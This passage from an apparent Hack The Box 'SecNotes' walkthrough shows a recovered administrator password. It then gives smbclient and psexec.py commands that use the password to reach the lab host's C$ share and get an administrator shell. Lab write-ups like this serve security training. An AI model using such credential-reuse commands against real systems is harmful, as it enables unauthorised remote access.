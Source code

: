 Nice! That looks like a password for administrator. Try it on Kali:

```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$ -c 'ls;quit'
```

![root1](./secnotes/root1.png)

That is a valid password for administrator. Use it to get a shell as administrator using PsExec:

```bash
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```

![root2](./secnotes/root2.png)

